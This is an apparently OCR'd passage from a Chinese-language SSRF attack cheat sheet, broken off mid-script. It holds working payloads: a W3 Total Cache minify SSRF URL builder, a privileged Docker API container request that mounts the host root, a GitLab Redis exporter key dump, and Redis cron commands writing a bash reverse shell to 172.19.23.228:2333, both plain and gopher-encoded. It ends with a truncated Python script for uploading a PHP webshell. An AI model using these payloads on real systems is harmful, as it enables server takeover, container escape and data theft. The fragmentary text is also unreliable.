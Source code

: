 	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36
	Content-Length: 124
	Content-Type: application/x-www-form-urlencoded
	Connection: close

	{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://SSRF_CANARY"}
	https://klikki.fi/adv/w3_total_cache.html
	<?php

	$url='http://www.google.com';
	$file=strtr(base64_encode(gzdeflate($url.'#https://ajax.googleapis.com')), '+/=', '-_');
	$file=chop($file,'=');
	$req='/wp-content/plugins/w3-total-cache/pub/minify.php?file='.$file.'.css';
	echo($req);

	?>
 ###### Docker
  	使用以下路径来验证 Docker 的 API 的存在
	/containers/json
	/secrets
	/services
	RCE
	POST /containers/create?name=test HTTP/1.1
	Host: website.com
	Content-Type: application/json
	...

	{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}
 ###### Gitlab Prometheus Redis Exporter
  	默认绑定端口：9121
	影响版本 13.1.1 之前的 Gitlab 实例
	以下端点将允许攻击者转储通过 target 参数提供的 redis 服务器中的所有密钥：
	http://localhost:9121/scrape?target=redis://127.0.0.1:7001&check-keys=*
 ###### Redis
  	计划任务RCE
  	redis-cli -h $1 flushall
	echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
	redis-cli -h $1 config set dir /var/spool/cron/
	redis-cli -h $1 config set dbfilename root
	redis-cli -h $1 save

	gopher
	gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

	上传shell
	https://www.mdeditor.tw/pl/pBy0
```python
#!/usr/bin/env python
# -*-coding:utf-8-*-

import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379" 
shell="\n\n<?php phpinfo();?>\n\n"
filename="shell.php"
path="/var" 
passwd=""

cmd=["flushall",
```